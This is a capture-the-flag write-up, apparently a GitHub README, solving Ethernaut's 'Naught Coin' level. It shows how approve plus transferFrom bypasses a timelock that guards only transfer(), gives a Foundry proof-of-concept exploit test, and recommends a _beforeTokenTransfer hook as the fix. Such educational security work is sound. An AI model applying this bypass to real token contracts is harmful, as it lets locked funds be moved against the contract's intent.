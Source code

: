 # Level 15 - Naught Coin

## Objectives

- Transfer tokens to another address skipping the lockout period.

## Contract Overview

The `NaughtCoin` contract has a `transfer` function that overrides the `transfer` function of the ERC20 contract. It adds a modifier `lockTokens` that prevents the initial owner from transferring tokens until the `timeLock` has passed.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/NaughtCoin_slither.png)

## Finding the weak spots

There are two important areas in this vulnerable contract: function `transfer()` and the modifier `lockTokens()`.

```solidity

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
```

To transfer the tokens out of our account we could have used the `transfer()` function. However, as it uses a modifier that checks for the time lock period, this option is not possible.

There are two-ways to transfer tokens:

- we can use the `transfer()` function to directly transfer tokens to a recipient, but this can only be done by the `msg.sender`.
- we can use the `transferFrom()` function, which allows an external arbitrary sender (which may be the owner of the tokens themselves) to transfer tokens on behalf of the owner to a recipient. Before sending the tokens, the owner must `approve` the sender to manage that specific amount of tokens.

Therefore, if the initial owner has given approval for a third-party to transfer tokens on their behalf, the transferFrom() function could be used to circumvent the restriction imposed by the lockTokens modifier.

## Potential attack scenario (hypothesis)

An attacker create another account to transfer all of his tokens before the timelock period.

An attacker can transfer tokens by using the fact that the ERC20 `transferFrom` function is not `timeLock` protected.

## Plan of the attack

1. Attacker creates another account.
2. Attacker approves himself to manage the whole amount of tokens before calling `transferFrom`.
3. Attacker calls `transferFrom`.
4. Attacker gets his token balance in the `NaughtCoin` contract to 0 because of transferring all his tokens to another account.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/15-NaughtCoin.t.sol))

```solidity
  emit log_named_address("Attacker's address: ", address(attacker));
        emit log_string("Starting the exploit...");

        uint attackerBalanceBefore = naughtCoinContract.balanceOf(attacker);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_uint("Balance before", attackerBalanceBefore);

        // 1. Attacker creates another account.
        address anotherAttackerAccount = makeNameForAddress(
            "anotherAttackerAccount"
        );
        emit log_named_uint(
            "Balance of another account before attack",
            naughtCoinContract.balanceOf(anotherAttackerAccount)
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // 2. Attacker approves himself to manage the whole amount of tokens before calling `transferFrom`.
        naughtCoinContract.approve(attacker, attackerBalanceBefore);

        // 3. Attacker calls `transferFrom`.
        naughtCoinContract.transferFrom(
            attacker,
            anotherAttackerAccount,
            attackerBalanceBefore
        );

        uint attackerBalanceAfter = naughtCoinContract.balanceOf(attacker);

        // 4. Attacker gets his token balance in the `NaughtCoin` contract to 0 because of transferring all his tokens to another account.
        emit log_named_uint("Balance after", attackerBalanceAfter);

        emit log_named_uint(
            "Balance of another account after attack",
            naughtCoinContract.balanceOf(anotherAttackerAccount)
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // Assert that the attacker has no more tokens
        assertEq(naughtCoinContract.balanceOf(attacker), 0);

        // // Assert that the secondary account received all the tokens
        assertEq(
            naughtCoinContract.balanceOf(anotherAttackerAccount),
            attackerBalanceBefore
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/NaughtCoin.png)

## Recommendations

Instead of overriding the transfer function, we could have implemented a hook that the EIP-20 define, called `_beforeTokenTransfer`.

This hook is called when any kind of token transfer happen:

- `mint` (transfer from 0x address to the user)
- `burn` (transfer from the user to 0x address)
- `transfer`
- `transferFrom`
  By doing so, they would have prevented this exploit.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-15-solution-naught-coin)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
